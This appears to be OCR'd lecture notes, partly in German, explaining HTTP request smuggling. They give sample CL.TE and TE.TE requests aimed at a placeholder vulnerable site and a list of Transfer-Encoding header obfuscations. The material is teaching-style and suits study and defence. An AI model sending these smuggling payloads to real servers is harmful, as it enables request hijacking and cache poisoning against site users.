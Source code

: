 ## This was fixed..

## HTTP Request Länge

"chunked" (0xb == 11):

``` http
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

## Angriff (~2019):

CL -> TE

``` http
 POST / HTTP/1.1
 Host: vulnerable-website.com
 Content-Length: 13
 Transfer-Encoding: chunked

 0

 SMUGGLED 
 ```

## Angriff (~2019):

TE -> CL

``` http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

## Angriff (~2019) 

TE -> TE

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

```